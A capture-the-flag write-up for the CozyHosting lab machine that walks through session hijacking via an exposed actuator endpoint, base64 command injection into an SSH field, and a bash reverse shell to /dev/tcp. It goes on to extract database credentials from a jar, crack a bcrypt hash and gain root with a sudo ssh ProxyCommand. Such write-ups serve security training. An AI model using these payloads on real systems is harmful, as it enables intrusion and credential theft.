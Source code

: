 ![cozyhosting.png](./img/CozyHosting.png)
# Initial Reconnaissance
1. `curl -I 10.10.11.230` to find possible location / DNS name
2. get a result of `cozyhosting.htb`, add to `/etc/hosts`
3. login page doesn't have any known back end, tried another way
4. tried to login with any credentials `admin:admin`, wrong credentials
5. check for cookies, and there's a `JSESSIONID` cookie (possible session hijacking), tried to find any open directory
6. `dirsearch -u cozyhosting.htb` (have tried other with gobuster and bunch of wordlists, this seems to works better)
7. found an `/actuator/` directory containing sessions. and im able to hijack a session from this

# User Escalation
1. earlier i found an `/actuator/` directory with `dirsearch`, i found a path in `/actuator/sessions`
2. visiting the directory actually gives a `JSESSIONID` with the username `kanderson`
3. change the cookie, enter `kanderson` as the username and random password value
4. pressing the login button actually bypasses the login pages
5. there's nothing more interact-able except using this `connection settings`, try to include something random `127.0.0.1:test` while capturing the requests in burpsuite
6. returns out some `host key error`, trying another payloads
7. entering `;` or `'` or `"` and any other symbols used in linux such as wildcards resulting in the request shows an error of `ssh` command, it seems like this is a possible command injection and actually could run a reverse shell
8. trying a bunch of payload and found one working `;echo${IFS}COMMAND_BASE64|base64${IFS}-d|bash;`
9. encode the payload in base64 `echo "sh -i >& /dev/tcp/your-ip/port 0>&1" | base64 -w 0`
10. setup a listener in terminal with `nc -lvnp port`, make sure the port is the same as which is on the payload.
11. after i craft the payload, send it to the username section, and check for connection on the listener
12. after i got a connection, tried to `ls` and there's a file named `cloudhosting-0.0.1.jar`, should try to download it
13. to download the file from the target machine, serves a http server on the target machine with python with `python3 -m http.server` and it will serves http fileserver on port 8000
14. to download the file on the local machine use `wget 10.10.11.230:8000/cloudhosting-0.0.1.jar`
15. after the download complete, open the jar with `jd-gui cloudhosting-0.0.1.jar`
16. after i carefully analyzing the file, i notice there's an exposed credentials in `BOOT-INF > classes > application.properties`, the postgres sql credential is hardcoded as `postgres:Vg&nvzAQ7XxR` and a database name of `cozyhosting`
17. after gaining the database credentials, tried to open the database in the target connection, first i open up the database `psql -U postgres -h localhost -W`, enter the password from extracted credentials
18. after i get in, i list the table available with `\l` and it shows some table and one i'm looking for is `cozyhosting`, so i connect with `\c cozyhosting`, then there's a prompt saying i'm successfully connected to that database and list the tables with `\dt` there's shown 2 tables `hosts` and `users` i'm interested in the `users` table, so i get the content with `select * from users;` and it return  2 rows with 3 column a name, password hash, and role. one being Kanderson with the role user and the other is with the role admin, trying to crack the hash
19. to crack the hash first i need to identify the hash, so i move the hash value into a file named `admin.hash` and then run `hashid admin.hash` it return a possible of 3 hash `blowfish`, `woltlab`, `bcrypt`, i will use `hashcat` to crack the hash with `rockyou.txt` wordlists
20. knowing the hash i want to specify the mode in hashcat, so i search the mode from here `https://gist.github.com/dwallraff/6a50b5d2649afeb1803757560c176401`, there's 2 result `3200` and `18600` but 3200 looks exactly the same as the hash i found, so i run the command `hashcat -m 3200 admin.hash rockyou.txt`, after some while it will return a password of `manchesterunited`, next i want to find it's username
21. to find the username, from the reverse connection, do `ls /home` and i get a directory for a user named `josh` and with that i have a complete credentials for the ssh login `josh:manchesterunited`
22. connect to the ssh as josh `ssh josh@10.10.11.230`, enter `yes` if there's a prompt and input the password
23. once inside `ls` and there's the user flag, `cat user.txt`
24. flag: `7072315530398ffe299eb27512fed5b2`

# Further Reconnaissance
1. `sudo -l` to check any available sudo command, turns out i could run ssh as sudo

# Privilege Escalation
1. i know that i could run ssh as sudo, now to find any available exploits with this payload `sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`, read more from here `https://gtfobins.github.io/gtfobins/`
2. after submitting the payload, i notice that the ssh connection turns into a `#` which mean i have successfully done privilege escalation, now to find the flag
3. `cat /root/root/txt`
4. flag: `a324942ccd71927d1e4fc8c564c57995`

![cozyhosting.png](./img/CozyHosting-Pwned.png)
